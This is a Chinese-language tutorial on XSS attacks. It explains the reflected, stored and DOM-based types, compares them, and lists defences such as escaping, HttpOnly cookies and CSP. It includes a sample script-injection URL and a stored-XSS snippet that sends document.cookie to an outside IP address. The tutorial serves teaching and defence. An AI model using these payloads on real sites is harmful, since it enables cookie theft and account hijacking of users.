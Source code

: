 ```yaml
---
meta:
  - name: description
    content: 前端跨站脚本攻击
  - name: keywords
    content: 前端跨站脚本攻击,XSS,前端,攻击,
---
```

# 跨站脚本攻击

## 介绍

> “XSS是跨站脚本攻击(Cross Site Scripting)，为不和层叠样式表(Cascading Style Sheets, CSS)的缩写混淆，故将跨站脚本攻击缩写为XSS。恶意攻击者往Web页面里插入恶意Script代码，当用户浏览该页之时，嵌入其中Web里面的Script代码会被执行，从而达到恶意攻击用户的目的。”

xss攻击的核心方式是脚本。这些脚本通常是javascript脚本，从这个层面来说javascript能做的事情，xss攻击一般都能做到。比如：

+ 通过 document.cookie 盗取 cookie中的信息

+ 使用 js或 css破坏页面正常的结构与样式

+ 流量劫持（通过访问某段具有 window.location.href 定位到其他页面）

+ dos攻击：利用合理的客户端请求来占用过多的服务器资源，从而使合法用户无法得到服务器响应。并且通过携带过程的 cookie信息可以使服务端返回400开头的状态码，从而拒绝合理的请求服务。

+ 利用 iframe、frame、XMLHttpRequest或上述 Flash等方式，以（被攻击）用户的身份执行一些管理动作，或执行一些一般的如发微博、加好友、发私信等操作，并且攻击者还可以利用 iframe，frame进一步的进行 CSRF 攻击。

+ 控制企业数据，包括读取、篡改、添加、删除企业敏感数据的能力

## 分类

### 反射型xss

`反射型xss`又被称为`非持久型xss`。当用户访问一个带有xss攻击代码的url请求的时候，向服务器发送请求，服务器接受请求后处理，并把客户端发送的xss攻击代码返回给客户端，客户端解析这段代码的时候，就有可能遭受xss攻击

用户浏览某个网站A，攻击者在这个网站中嵌入了恶意的脚本用于盗取用户的cookie等信息 攻击者诱导用户触发xss攻击（比如诱导用户点击非法链接），当用户触发了xss攻击的时候就会将自己的用户信息发送给攻击者 攻击者在获取用户的cookie后，就有可能盗用用户的身份信息进行非法操作

`http://xxx/search?keyword="><script>alert('XSS');</script>`

#### 反射型 XSS 漏洞常见于通过 URL 传递参数的功能，如网站搜索、跳转等

数据流向： 浏览器 -> 后端 -> 浏览器

### 存储型xss

`存储型xss`又被称为`持久化的xss`。也是最危险的xss攻击方式。一旦攻击成功，就有可能造成大规模的xss攻击，也就是我们通常所说的xss蠕虫。

存储型xss攻击的一般原理是，客户端将带有xss攻击的数据发送给服务器，服务器接收并存储在数据库。当用户下次再访问这个页面的时候，服务器会读取数据库并将之前的xss代码取出发送给浏览器。浏览器解析这段数据的时候，就会遭受xss攻击。

所以，反射型xss攻击一般需要用户手动触发，而存储型xss攻击却是能够自动触发的。一般来说，反射型xss攻击的危害要比存储型xss攻击的危害要小的多。

```js
// 比如通过评论输入框将下面代码提交，之后会执行下面代码
<script type="text/javascript">
document.write("<img src='http://192.168.59.129:10086?c=" + escape(document.cookie) + "'>")
</script>
```

#### 存储型 XSS 的恶意代码存在数据库里，反射型 XSS 的恶意代码存在 URL 里

数据流向： 浏览器 -> 后端 -> 数据库 -> 后端 -> 浏览器

### DOM型xss

我们可以通过JavaScript来操作dom树，所以，xss攻击也是能够做到这一点的。dom型xss攻击最大的危害就是改变我们网页的布局。这种类型的xss是不需要和服务器进行交互的，只发生在客户端处理阶段。比如一段xss攻击的代码是：

```js
const div = document.createElement('div')
div.innerText = 'xss攻击的代码'
document.body.appendChild(div)
```

#### 反射型xss和dom-xss都需要在url加入js代码才能够触发

数据流向： URL -> 浏览器

### 对比总结

| 类型 | 反射型 | 存储型 | DOM型 |
| --- | --- | ---| ---|
| 触发过程 | 正常用户访问携带XSS脚本的URL | 1.黑客构造XSS脚本<br/>2.正常用户访问携带XSS脚本的页面 | 正常用户访问携带XSS脚本的URL |
| 数据存储 | URL| 数据库 | URL |
| 谁来输出 | 后端WEB应用程序 | 后端WEB应用程序 | 前端JS |
| 输出位置 | HTTP响应中 | HTTP响应中 | 动态构建DOM节点 |

## 防范措施

应对XSS攻击的主要手段还是编码与过滤两种，`编码`用于将特殊的符号 "<、>、&、'、""进行html转义，而`过滤`则是阻止特定的标记、属性、事件

### 转义html

+ 使用encodeURIComponent对url中的参数进行编码(反射型xss)

+ 服务器接收到数据，在存储到数据库之前，进行转义/过滤

+ 前端接收到服务器传递过来的数据，在展示到页面前，先进行转义/过滤

### HTTP-only Cookie

`HTTP-only`禁止JavaScript读取某些敏感Cookie，攻击者完成XSS注入后也无法窃取此Cookie属性：防止脚本冒充用户提交危险操作

如果某一个Cookie 选项被设置成 HttpOnly = true 的话，那此Cookie 只能通过服务器端修改，Js 是操作不了的（无法读写这个cookie）

### Content-Security-Policy

在服务端使用HTTP的`Content-Security-Policy`头部来指定策略，或者在前端设置meta标答。例如下面的配置只允许加载同域下的资源

### innerText/textContent

+ 在使用 `.innerHTML、.outerHTML、document.write()` 时要特别小心，不要把不可信的数据作为 HTML 插到页面上，而应尽量使用 .textContent、.setAttribute() 等

+ 如果用 Vue/React 技术栈，并且不使用 `v-html/dangerouslySetInnerHTML` 功能，就在前端 render 阶段避免 `innerHTML、outerHTML` 的 XSS 隐患

### 验证码

防止脚本冒充用户提交危险操作

## 参考资料

[什么是XSS攻击，XSS攻击可以分为哪几类？如何防范XSS攻击？](https://github.com/YvetteLau/Step-By-Step/issues/18)

[web安全之xss攻击](https://zhaosaisai.com/blog/2018/web%E5%AE%89%E5%85%A8%E4%B9%8Bxss%E6%94%BB%E5%87%BB.html)

